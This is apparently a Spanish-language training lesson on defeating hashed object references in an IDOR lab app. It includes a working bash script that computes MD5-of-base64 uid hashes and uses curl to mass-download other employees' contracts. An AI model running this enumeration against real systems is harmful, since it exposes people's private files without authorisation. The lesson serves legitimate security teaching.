 En la sección anterior, vimos un ejemplo de un IDOR que usa `employee uids` en texto claro, lo que facilita la enumeración. En algunos casos, las aplicaciones web generan hashes o codifican sus referencias de objetos, lo que hace que la enumeración sea más difícil, pero aún puede ser posible.

Volvamos a la aplicación web `Employee Manager` para probar la funcionalidad de `Contracts`:

`http://SERVER_IP:PORT/contracts.php`

![IDOR Contracts](https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_contracts.jpg)

Si hacemos clic en el archivo `Employment_contract.pdf`, comienza a descargar el archivo. La solicitud interceptada en Burp se ve de la siguiente manera:

![Download Contract](https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_download_contract.jpg)

Vemos que está enviando una solicitud `POST` a `download.php` con los siguientes datos:

```r
contract=cdd96d3cc73d1dbdaffa03cc6cd7339b
```

Usar un script `download.php` para descargar archivos es una práctica común para evitar vincular directamente a los archivos, ya que eso puede ser explotable con múltiples ataques web. En este caso, la aplicación web no está enviando la referencia directa en texto claro, sino que parece estar hasheándola en un formato `md5`. Los hashes son funciones unidireccionales, por lo que no podemos decodificarlos para ver sus valores originales.

Podemos intentar hashear varios valores, como `uid`, `username`, `filename` y muchos otros, y ver si alguno de sus hashes `md5` coincide con el valor anterior. Si encontramos una coincidencia, podemos replicarlo para otros usuarios y recopilar sus archivos. Por ejemplo, intentemos comparar el hash `md5` de nuestro `uid`, y ver si coincide con el hash anterior:

```r
echo -n 1 | md5sum

c4ca4238a0b923820dcc509a6f75849b -
```

Desafortunadamente, los hashes no coinciden. Podemos intentar esto con varios otros campos, pero ninguno de ellos coincide con nuestro hash. En casos avanzados, también podemos utilizar `Burp Comparer` y fuzzear varios valores y luego compararlos con nuestro hash para ver si encontramos coincidencias. En este caso, el hash `md5` podría ser para un valor único o una combinación de valores, lo que sería muy difícil de predecir, haciendo esta referencia directa un `Secure Direct Object Reference`. Sin embargo, hay una falla fatal en esta aplicación web.

---

## Function Disclosure

Como la mayoría de las aplicaciones web modernas están desarrolladas utilizando frameworks de JavaScript, como `Angular`, `React` o `Vue.js`, muchos desarrolladores web pueden cometer el error de realizar funciones sensibles en el front-end, lo que las expondría a los atacantes. Por ejemplo, si el hash anterior se estaba calculando en el front-end, podemos estudiar la función y luego replicar lo que está haciendo para calcular el mismo hash. Afortunadamente para nosotros, este es precisamente el caso en esta aplicación web.

Si miramos el enlace en el código fuente, vemos que está llamando a una función de JavaScript con `javascript:downloadContract('1')`. Mirando la función `downloadContract()` en el código fuente, vemos lo siguiente:

```r
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```

Esta función parece estar enviando una solicitud `POST` con el parámetro `contract`, que es lo que vimos anteriormente. El valor que está enviando es un hash `md5` utilizando la biblioteca `CryptoJS`, que también coincide con la solicitud que vimos antes. Entonces, lo único que queda por ver es qué valor se está hasheando.

En este caso, el valor que se está hasheando es `btoa(uid)`, que es la cadena codificada en `base64` de la variable `uid`, que es un argumento de entrada para la función. Volviendo al enlace anterior donde se llamó a la función, vemos que llama a `downloadContract('1')`. Entonces, el valor final que se está utilizando en la solicitud `POST` es la cadena codificada en `base64` de `1`, que luego fue hasheada con `md5`.

Podemos probar esto codificando en `base64` nuestro `uid=1`, y luego hasheándolo con `md5`, de la siguiente manera:

```r
echo -n 1 | base64 -w 0 | md5sum

cdd96d3cc73d1dbdaffa03cc6cd7339b -
```

**Tip:** Estamos usando el flag `-n` con `echo`, y el flag `-w 0` con `base64`, para evitar agregar nuevas líneas, con el fin de poder calcular el hash `md5` del mismo valor, sin hashear nuevas líneas, ya que eso cambiaría el hash `md5` final.

Como podemos ver, este hash coincide con el hash en nuestra solicitud, lo que significa que hemos revertido con éxito la técnica de hashing utilizada en las referencias de objetos, convirtiéndolas en IDORs. Con eso, podemos comenzar a enumerar los contratos de otros empleados utilizando el mismo método de hashing que usamos anteriormente. `Antes de continuar, intenta escribir un script similar al que usamos en la sección anterior para enumerar todos los contratos`.

---

## Mass Enumeration

Una vez más, escribamos un simple script en bash para recuperar todos los contratos de los empleados. Más a menudo que no, este es el método más fácil y eficiente de enumerar datos y archivos a través de vulnerabilidades IDOR. En casos más avanzados, podemos utilizar herramientas como `Burp Intruder` o `ZAP Fuzzer`, pero un simple script en bash debería ser el mejor curso para nuestro ejercicio.

Podemos comenzar calculando el hash para cada uno de los primeros diez empleados utilizando el mismo comando anterior mientras usamos `tr -d` para eliminar los caracteres `-` finales, de la siguiente manera:

```r
for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done

cdd96d3cc73d1dbdaffa03cc6cd7339b
0b7e7dee87b1c3b98e72131173dfbbbf
0b24df25fe628797b3a50ae0724d2730
f7947d50da7a043693a592b4db43b0a1
8b9af1f7f76daf0f02bd9c48c4a2e3d0
006d1236aee3f92b8322299796ba1989
b523ff8d1ced96cef9c86492e790c2fb
d477819d240e7d3dd9499ed8d23e7158
3e57e65a34ffcb2e93cb545d024f5bde
5d4aace023dc088767b4e08c79415dcd
```

A continuación, podemos hacer una solicitud `POST` en `download.php` con cada uno de los hashes anteriores como el valor `contract`, lo que debería darnos nuestro script final:

```r
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```

Con eso, podemos ejecutar el script, y debería descargar todos los contratos para los empleados 1-10:

```r
bash ./exploit.sh
ls -1

contract_006d1236aee3f92b8322299796ba1989.pdf
contract_0b24df25fe628797b3a50ae0724d2730.pdf
contract_0b7e7dee87b1c3b98e72131173dfbbbf.pdf
contract_3e57e65a34ffcb2e93cb545d024f5bde.pdf
contract_5d4aace023dc088767b4e08c79415dcd.pdf
contract_8b9af1f7f76daf0f02bd9c48c4a2e3d0.pdf
contract_b523ff8d1ced96cef9c86492e790c2fb.pdf
contract_cdd96d3cc73d1dbdaffa03cc6cd7339b.pdf
contract_d477819d240e7d3dd9499ed8d23e7158.pdf
contract_f7947d50da7a043693a592b4db43b0a1.pdf
```

Como podemos ver, debido a que pudimos revertir la técnica de hashing utilizada en las referencias de objetos, ahora podemos explotar con éxito la vulnerabilidad IDOR para recuperar los contratos de todos los demás usuarios.
